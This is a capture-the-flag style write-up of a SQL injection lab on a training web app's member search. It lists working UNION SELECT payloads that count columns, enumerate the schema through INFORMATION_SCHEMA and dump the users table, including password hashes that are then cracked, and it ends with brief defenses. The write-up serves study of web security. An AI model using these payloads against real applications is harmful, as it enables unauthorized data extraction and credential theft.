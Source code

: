 # Members SQL injection vulnerability

https://owasp.org/www-community/attacks/SQL_Injection

https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/

https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/

## Description

We find and sql injection vulnerability in the member search
our input is directly passed to the query,
means we can add parameters to the WHERE clause
The query must be similar to this:

`$id = isset($_GET['id'])
=> SELECT * FROM members WHERE id = ${input}`

## Attack

### I - Find the number of column with ORDER BY
---

input = "-1 ORDER BY N"

with order by if the number of column is superior it will show and error 
so we go with N = 1 then 2 then 3, and here we get and error

http://192.168.1.75/?page=member&id=1+ORDER+BY+2&Submit=Submit#

ID: 1 ORDER BY 2 
First name: Barack Hussein
Surname : Obama

=> The number of column is 2

### II - Find the vulnerable column with UNION SELECT
---

input = "-1 UNION SELECT 1,2"

http://192.168.1.75/?page=member&id=1+union+select+1%2C2&Submit=Submit#

ID: -1 union select 1,2 
First name: 1
Surname : 2

=> The second column is vulnarable

input = "-1 UNION SELECT 1,version()"

http://192.168.1.75/?page=member&id=1+union+select+1%2Cversion%28%29&Submit=Submit#

ID: -1 union select 1,version() 
First name: 1
Surname : 5.5.44-0ubuntu0.12.04.1

input = "-1 UNION SELECT 1,database()"

ID: -1 UNION SELECT 1,database() 
First name: 1
Surname : Member_Sql_Injection

### III - Find the table name and columns with GROUP_CONCAT() | INFORMATION_SCHEMA() | DATABES()
---

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE())"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()) 
Title: list_images
Url : 1

=> Table name = list_images

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE())"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE()) 
First name: 1
Surname : user_id,first_name,last_name,town,country,planet,Commentaire,countersign

### IV - Extract data
---

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(user_id) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(user_id) FROM users) 
First name: 1
Surname : 1,2,3,5

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(first_name) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(first_name) FROM users) 
First name: 1
Surname : Barack Hussein,Adolf,Joseph,Flag

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(last_name) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(last_name) FROM users) 
First name: 1
Surname : Obama,Hitler,Staline,GetThe

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(town) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(town) FROM users) 
First name: 1
Surname : Honolulu ,Berlin,Moscou,42

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(country) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(country) FROM users) 
First name: 1
Surname : America,Allemagne,Russia,42


input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(planet) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(planet) FROM users) 
First name: 1
Surname : EARTH,Earth,Earth,42


input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(countersign) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(countersign) FROM users) 
First name: 1
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9,60e9032c586fb422e2c16dee6286cf10,e083b24a01c483437bcf4a9eea7c1b4d,5ff9d0165b4f92b14994e5c685cdce28

input = "-1 UNION SELECT 1,(SELECT GROUP_CONCAT(Commentaire) FROM users)"

ID: -1 UNION SELECT 1,(SELECT GROUP_CONCAT(Commentaire) FROM users)
First name: 1
Surname : Amerca !,Ich spreche kein Deutsch.,????? ????????????? ?????????,Decrypt this password -> then lower all the char. Sh256 on it and it's good !

### V - Result
---

=> On identifie le user 5, GetTheFlag, 42, 42, 42, 5ff9d0165b4f92b14994e5c685cdce28, Decrypt this password -> then lower all the char. Sh256 on it and it's good !

=> 5ff9d0165b4f92b14994e5c685cdce28 is MD5 encrypted = FortyTwo -> lower all char = fortytwo -> Sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Defense

Option 1: Use of Prepared Statements (with Parameterized Queries)

Option 2: Use of Properly Constructed Stored Procedures

Option 3: Allow-list Input Validation

Option 4: Escaping All User Supplied Input